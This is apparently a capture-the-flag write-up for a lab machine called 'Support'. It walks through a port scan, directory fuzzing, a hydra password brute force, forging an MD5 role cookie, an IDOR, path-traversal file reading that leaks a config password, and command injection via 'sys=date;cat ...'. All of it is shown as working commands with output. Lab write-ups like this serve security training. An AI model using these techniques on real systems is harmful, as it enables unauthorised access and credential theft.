

# Support



## Port Scan

As usual, we will perform a port scan to cultivate a good habit

```php
└─$ rustscan -a support.thm --ulimit 5000 -- -A -oN nmap.log
...
Open xx.xx.xxx.xxx:22
Open xx.xx.xxx.xxx:80
...
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a0:7b:be:2c:b4:d4:1a:d8:5e:75:af:59:d2:cd:32:a5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNeUlpF52k/dTVjOmplwA/CHwLAMx9uweWRKyu7Wiw/juab6loiucjULORaui5bCG5rIaub0KaLJJVkET/kLD5I=
|   256 b1:4d:c7:f6:e1:a3:7f:9b:5a:77:b6:47:8a:ec:6c:de (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGmbyLvhIOfko8uxWmi0FeNszyBq8U1/xBvcH1raT7d6
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Support Operations Panel
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.58 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Linux 5.X|6.X|4.X (96%), Google Android 10.X|11.X|12.X (93%), Adtran embedded (92%)
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:linux:linux_kernel:6 cpe:/o:linux:linux_kernel:4 cpe:/o:google:android:10 cpe:/o:google:android:11 cpe:/o:google:android:12 cpe:/h:adtran:424rg
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 5.14 - 6.8 (96%), Linux 4.15 - 5.19 (96%), Linux 5.4 - 5.15 (96%), Linux 4.15 (95%), Android 10 - 12 (Linux 4.14 - 4.19) (93%), Adtran 424RG FTTH gateway (92%), Android 10 - 11 (Linux 4.9 - 4.14) (92%), Android 12 (Linux 5.4) (92%), Android 9 - 11 (Linux 4.9 - 4.14) (92%), Linux 2.6.32 (92%)
No exact OS matches for host (test conditions non-ideal).
```

There are two open ports:

- Port 22: SSH (OpenSSH 9.6p1)
- Port 80: HTTP (Apache httpd 2.4.58)

## HTTP Enumeration

As expected, the home page is a login panel


Do a little enumeration, and we found there are some interesting files.

```php
─$ ffuf -u http://support.thm/FUZZ -w /usr/share/wordlists/dirb/common.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://support.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htpasswd               [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 101ms]
                        [Status: 200, Size: 2591, Words: 866, Lines: 93, Duration: 3637ms]
.htaccess               [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 3639ms]
.hta                    [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 4663ms]
includes                [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 100ms]
index.php               [Status: 200, Size: 2591, Words: 866, Lines: 93, Duration: 100ms]
info.php                [Status: 200, Size: 73343, Words: 3585, Lines: 821, Duration: 108ms]
js                      [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 100ms]
layout                  [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 101ms]
server-status           [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 102ms]
skins                   [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 104ms]
:: Progress: [4614/4614] :: Job [1/1] :: 398 req/sec :: Duration: [0:00:14] :: Errors: 0 ::
```

### Info.php

The `info.php` should not be leaked at all times.


### Includes

The `includes` directory shows two PHP files; sadly, we cannot see the content directly.


### Skins

The `skins` directory shows four different PHP files. They seem related to colors.


## Brute force `help@support.thm`

At this point, it seems that all we can do is brute-force the password for the placeholder email (`help@support.thm`).

```bash
─$ hydra -l help@support.thm -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10k-most-common.txt support.thm http-form-post '/index.php:email=^USER^&password=^PASS^:F=Invalid' -Vv -f                                      
...
[DATA] attacking http-post-form://support.thm:80/index.php:email=^USER^&password=^PASS^:F=Invalid
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target support.thm - login "help@support.thm" - pass "password" - 1 of 10000 [child 0] (0/0)
[ATTEMPT] target support.thm - login "help@support.thm" - pass "123456" - 2 of 10000 [child 1] (0/0)
[ATTEMPT] target support.thm - login "help@support.thm" - pass "12345678" - 3 of 10000 [child 2] (0/0)
[ATTEMPT] target support.thm - login "help@support.thm" - pass "1234" - 4 of 10000 [child 3] (0/0)
[ATTEMPT] target support.thm - login "help@support.thm" - pass "qwerty" - 5 of 10000 [child 4] (0/0)
[ATTEMPT] target support.thm - login "help@support.thm" - pass "12345" - 6 of 10000 [child 5] (0/0)
[ATTEMPT] target support.thm - login "help@support.thm" - pass "dragon" - 7 of 10000 [child 6] (0/0)
...
[ATTEMPT] target support.thm - login "help@support.thm" - pass "snoopy" - 129 of 10000 [child 4] (0/0)
...
[VERBOSE] Page redirected to http[s]://support.thm:80/dashboard.php
...
[80][http-post-form] host: support.thm   login: help@support.thm   password: snoopy
[STATUS] attack finished for support.thm (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

## Cookie Tampering

Now we can login using the following credentials: `help@support.thm:snoopy`


After logging in, we’ll find a new cookie called `isITUser` with the value `68934a3e9455fa72420237eb05902327`.


If we put it into [hashes.com](http://hashes.com), we’ll see it’s an MD5-like hash, and the original value is `false`.


To verify, we can just place the hash to the hash identifier, and it is indeed MD5


So we can easily obtain the MD5 hash of `true`, which is `b326b5062b2f0e69046810717534cb09`.


When we plug in the hash, we will see there is a IT Admin Panel API appeared.


## IDOR


I think cURL is much easier for interacting with the API, so I store the cookies in `cookie.txt` and use it in the upcoming interactions.

```bash
└─$ curl -X POST http://support.thm/ -H 'Content-Type: application/x-www-form-urlencoded' -d 'email=help@support.thm&password=snoopy' -c cookie.txt                                                                                  

└─$ cat cookie.txt                                                                                                                                                                                                                          
# Netscape HTTP Cookie File
# https://curl.se/docs/http-cookies.html
# This file was generated by libcurl! Edit at your own risk.

support.thm     FALSE   /       FALSE   1781262947      isITUser        68934a3e9455fa72420237eb05902327
support.thm     FALSE   /       FALSE   0       PHPSESSID       0rnam9aa0vtb6mpvit2bp5tbv7
```

If we use cURL to the user with User ID 1, we will see that he is indeed admin.

```bash
└─$ curl http://support.thm/user/1 -b cookie.txt
{
    "email": "specialadmin@support.thm",
    "2FA": false,
    "admin": true
}
```

## LFI

So we want to know the password of that user, but how?

The dashboard actually allows us to change the theme.


If you look at the source code, you will realize we have seen these colors before.

```html
 <ul class="dropdown-menu dropdown-menu-end">
	<li><a class="dropdown-item" href="?skin=default">Default</a></li>
	<li><a class="dropdown-item text-danger" href="?skin=red">Red</a></li>
	<li><a class="dropdown-item text-success" href="?skin=green">Green</a></li>
	<li><a class="dropdown-item text-primary" href="?skin=blue">Blue</a></li>
</ul>
```

These colors are actually the PHP files that exist under the `/skin` directory. It seems the `.php` extension will be appended after the color name.

With this in mind, we can try to read `dashboard.php`, and it worked.

```html
└─$ curl http://support.thm/dashboard.php?skin=../dashboard -b cookie.txt 

<!DOCTYPE html>
<html>
<head>
    <title>Dashboard</title>
    <link href="layout/bootstrap.min.css" rel="stylesheet">
</head>
<body>

<?php
session_start();

if (!isset($_SESSION['loggedin'])) {
    header('Location: index.php');
    exit;
}

$isIT = $_COOKIE['isITUser'] ?? md5("false");
$skin = $_GET['skin'] ?? 'default';
?>

<!DOCTYPE html>
<html>
<head>
    <title>Dashboard</title>
    <link href="layout/bootstrap.min.css" rel="stylesheet">
</head>
<body>

<?php

$webRoot = realpath('/var/www/html/skins');
$another = realpath('/var/www/html');
$requested = realpath($webRoot . '/' . $skin . '.php');

if ($requested !== false && strpos($requested, $another) === 0) {
    readfile($requested);
}
?>

<nav class="navbar navbar-dark bg-dark">
    <div class="container-fluid">
        <span class="navbar-brand">Support Dashboard</span>
        <a href="logout.php" class="btn btn-sm btn-danger">Logout</a>
    </div>
</nav>

<div class="container mt-4">
    <h3>Welcome, Helpdesk User</h3>

    <div class="card mt-3">
        <div class="card-body">
            <p>Ticket management system</p>
        </div>
    </div>

    <?php if ($isIT === md5('true')): ?>
        <div class="card mt-4 border-success">
            <div class="card-body">
                <h5 class="text-success">IT Admin Panel</h5>
                <a href="api.php" class="btn btn-success">View API</a>
            </div>
        </div>
    <?php endif; ?>

    <?php if (isset($_SESSION['admin']) && $_SESSION['admin'] === true): ?>
        <div class="card mt-4 border-warning shadow-lg">
            <div class="card-header bg-warning text-dark fw-bold">
                🎯 Administrator Access Confirmed
            </div>
            <div class="card-body text-center">
                <p class="lead mb-2">
                    You have successfully authenticated as an administrator.
                </p>
                <div class="alert alert-dark fw-bold fs-5">
                   <?= htmlspecialchars(trim(file_get_contents('/var/www/web.txt'))) ?> 
                </div>
            </div>
        </div>
    <?php endif; ?>

</div>

<?php include('footer.php'); ?>
...
```

I then tried some common PHP files, and `config.php` revealed the password:

```html
└─$ curl http://support.thm/dashboard.php?skin=../config -b cookie.txt                                                                                                                                                                   

<!DOCTYPE html>
<html>
<head>
    <title>Dashboard</title>
    <link href="layout/bootstrap.min.css" rel="stylesheet">
</head>
<body>

<?php

$MASTER_PASSWORD = 'support@110';

$SITE_VER = '1.0';
$SITE_NAME = 'support_portal';
...
```

Notice that `@` is not part of the password; the correct password is `support110`.

## Login as Admin

We can finally login to `specialadmin@support.thm` with the password `support110`


Admin Flag: `THM{I_AM_ADMIN999}`

## Command Injection

This time, we get a Date Form


The date form goes as follows:

```bash
<form method="POST" id="sysForm">
                    <select name="sys"
                            class="form-select"
                            onchange="document.getElementById('sysForm').submit();">

                        <option value="date"
                            selected>
                            Date
                        </option>

                        <option value='date +"%H:%M:%S"'
                            >
                            Time
                        </option>

                    </select>
                </form>
```

I tried running `ls` by adding a semicolon, and it worked.

```bash
└─$ curl -X POST http://support.thm/dashboard.php -H 'Content-Type: application/x-www-form-urlencoded' -d 'sys=date;ls'  -b cookie.txt                                                                                                      
...
<div class="alert alert-dark">
<pre class="mb-0">Fri Jun 12 11:35:13 UTC 2026
	api.php
	config.php
	dashboard.php
	footer.php
	includes
	index.php
	info.php
	js
	layout
	logout.php
	skins
</pre>
            </div>
```

With this, we can finally read `user.txt` under `ubuntu`.

```bash
└─$ curl -X POST http://support.thm/dashboard.php -H 'Content-Type: application/x-www-form-urlencoded' -d 'sys=date;cat%20/home/ubuntu/user.txt'  -b cookie.txt                                                                            
...     
<div class="alert alert-dark">
<pre class="mb-0">Fri Jun 12 11:35:59 UTC 2026
THM{GOT_THE_FLAG001}</pre>
</div>
```

User.txt Flag: `THM{GOT_THE_FLAG001}`
